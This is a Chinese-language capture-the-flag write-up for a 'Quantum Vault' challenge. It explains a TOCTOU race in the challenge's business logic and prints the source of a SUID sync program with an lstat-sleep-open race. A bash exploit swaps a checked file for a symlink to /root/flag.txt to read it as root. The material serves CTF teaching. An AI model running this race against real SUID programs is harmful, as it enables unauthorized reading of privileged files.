



# Quantum Vault

## 题目简述

TOCTOU 题。前半部分利用同步延迟修改单位，使终端在检查与使用之间读到不一致状态获得 shell；提权阶段分析 SUID 程序 `q-vault-sync`，其先 `lstat()` 检查源文件、`sleep(2)` 后再 `open()`，可在窗口期把普通文件替换为指向 `/root/flag.txt` 的软链接。

## 解题过程

整道题考察的其实是TOCTOU漏洞。

上来给的是一个“跨维度金融终端”，题目中初始余额是100USD，要求拥有超过1000000USD才能成功执行vault。另外注意到collect可以给“影子池”添加1000QTC，sync可以耗时2.5秒将“影子池”同步到余额中，每次同步前只能collect五次。

预期解如下：



主要是利用了延迟的这段时间迅速修改了单位，导致真正执行同步时读取到的是被修改后的单位导致记录错误。

接下来直接就给出了shell，根据题目描述flag在/root/flag.txt中，因此显然需要提权。尝试suid提权可以发现有个/usr/local/bin/q-vault-sync，这是个自定义的命令，-h可以看到其功能



这里给出q-vault-sync.c的源码

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>
#include <getopt.h>
void print_usage(char *prog_name) {
    printf("Quantum Core Financial Terminal - Sync Utility\n");
    printf("Usage: %s [options]\n\n", prog_name);
    printf("Options:\n");
    printf("  -s <file>    Specify the source quantum key file for
validation.\n");
    printf("  -d <dir>     Specify the destination shadow directory (Must be
in /tmp/).\n");
    printf("  -v           Enable verbose diagnostic output.\n");
    printf("  -h           Display this help message and exit.\n\n");
    printf("Description:\n");
    printf("  This utility synchronizes local quantum entropy keys with the
dimension\n");
    printf("  ledger's shadow pool. It performs high-integrity ownership
verification\n");
    printf("  before initiating the cross-dimensional data transfer
protocol.\n");
}
int main(int argc, char *argv[]) {
    char *src = NULL;
    char *dst_dir = NULL;
    int verbose = 0;
    int opt;
    while ((opt = getopt(argc, argv, "s:d:vh")) != -1) {
        switch (opt) {
            case 's': src = optarg; break;
            case 'd': dst_dir = optarg; break;
            case 'v': verbose = 1; break;
            case 'h': print_usage(argv[0]); return 0;
            default: print_usage(argv[0]); return 1;
        }
    }
    if (!src || !dst_dir) {
        fprintf(stderr, "Error: Missing required arguments. Use -h for
help.\n");
        return 1;
    }
    char dest_path[512];
    struct stat st;
    if (strncmp(dst_dir, "/tmp/", 5) != 0) {
        printf("[-] Security Error: Destination must reside within protected
/tmp/ space.\n");
        return 1;
    }
    if (lstat(src, &st) < 0) {
        perror("lstat");
        return 1;
    }
    if (S_ISLNK(st.st_mode)) {
        printf("[-] Security Violation: Dimensional instability detected
(Symlink forbidden).\n");
        return 1;
    }
    if (st.st_uid != getuid()) {
        printf("[-] Access Denied: Unauthorized key ownership.\n");
        return 1;
    }
    if (verbose) printf("[DEBUG] Ownership verified. Initializing entropy-
sync...\n");
    printf("[*] Check passed. Quantum key validation in progress...\n");
    sleep(2);
    snprintf(dest_path, sizeof(dest_path), "%s/synced_key.dat", dst_dir);
    int fd_in = open(src, O_RDONLY);
    if (fd_in < 0) {
        perror("open src");
        return 1;
    }
    int fd_out = open(dest_path, O_WRONLY | O_CREAT | O_TRUNC, 0666);
    if (fd_out < 0) {
        perror("open dst");
        close(fd_in);
        return 1;
    }
    char buf[1024];
    int n;
    while ((n = read(fd_in, buf, sizeof(buf))) > 0) {
        write(fd_out, buf, n);
    }
    close(fd_in);
    close(fd_out);
    chown(dest_path, getuid(), getgid());
    printf("[+] Key successfully synchronized to %s\n", dest_path);
    return 0;
}
```

在q-vault-sync.c的源码中，程序执行了以下逻辑：

1. Check：调用 lstat() 检查源文件。此时它确认了：

- 文件是否在/tmp下

- 文件不是软链接。

- 文件属于当前用户 ctfuser。

2. Delay：程序执行了sleep(2)。

3. Use：程序调用 open()，若此时程序具有 SUID 权限，它会打开并读取目标文件。

又因为open()会默认跟随软链接，因此在lstat完成之后，open执行之前，迅速将合法文件替换为指向/root/flag.txt的软链接即可。

### Exploit

```bash
cat << 'EOF' > exploit.sh && chmod +x exploit.sh && ./exploit.sh
#!/bin/bash
TARGET_DIR="/tmp/hack"
MY_KEY="$TARGET_DIR/mykey.txt"
mkdir -p "$TARGET_DIR"
echo "valid_key" > "$MY_KEY"
/usr/local/bin/q-vault-sync -s "$MY_KEY" -d "$TARGET_DIR" &
PID=$!
sleep 0.4
rm "$MY_KEY" && ln -s /root/flag.txt "$MY_KEY"
wait $PID
cat "$TARGET_DIR/synced_key.dat"
EOF
```



## 方法总结

- 核心技巧：业务状态 TOCTOU + SUID 文件检查/使用竞态。
- 识别信号：程序先 `lstat` 禁止软链接，延迟后再 `open` 且 `open` 默认跟随软链接时，应检查 race。
- 复用要点：先用合法文件通过检查，再在 check-use 间隙替换为目标软链接，最后读取复制出的文件。
